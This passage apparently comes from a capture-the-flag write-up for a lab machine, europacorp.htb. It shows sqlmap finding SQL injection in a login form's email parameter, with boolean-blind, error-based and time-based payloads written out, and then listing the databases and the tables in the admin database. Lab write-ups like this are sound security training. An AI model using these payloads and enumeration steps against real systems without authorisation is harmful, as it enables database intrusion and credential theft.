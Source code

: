     
    root@kali# sqlmap -r login.request --force-ssl --batch
    ...[snip]...
    sqlmap identified the following injection point(s) with a total of 348 HTTP(s) requests:
    ---
    Parameter: email (POST)
        Type: boolean-based blind
        Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
        Payload: email=admin@europacorp.htb' RLIKE (SELECT (CASE WHEN (3528=3528) THEN 0x61646d696e406575726f7061636f72702e687462 ELSE 0x28 END))-- ikPY&password=a
    
        Type: error-based
        Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
        Payload: email=admin@europacorp.htb' AND GTID_SUBSET(CONCAT(0x7178787a71,(SELECT (ELT(2615=2615,1))),0x716a787071),2615)-- LvpT&password=a
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: email=admin@europacorp.htb' AND (SELECT 6362 FROM (SELECT(SLEEP(5)))fgAB)-- fZwX&password=a
    ---
    [06:50:20] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.6
    [06:50:21] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'
    

`sqlmap` found three ways to exploit this, two blind and one error-based.
`sqlmap` is smart enough to keep this and apply it to future queries at the
same page. I’ll start by listing the DBs:

    
    
    root@kali# sqlmap -r login.request --force-ssl --batch --dbs 
    ...[snip]...
    [06:57:26] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.6
    [06:57:26] [INFO] fetching database names
    [06:57:27] [INFO] retrieved: 'information_schema'
    [06:57:27] [INFO] retrieved: 'admin'
    available databases [2]:
    [*] admin
    [*] information_schema
    
    [06:57:27] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'
    

Now list the tables in the admin DB:

    
    
    root@kali# sqlmap -r login.request --force-ssl --batch -D admin --tables
    ...[snip]...
    [06:58:50] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.6
    [06:58:50] [INFO] fetching tables for database: 'admin'
    [06:58:50] [INFO] retrieved: 'users'
    Database: admin
    [1 table]
    +-------+
    | users |
    +-------+
    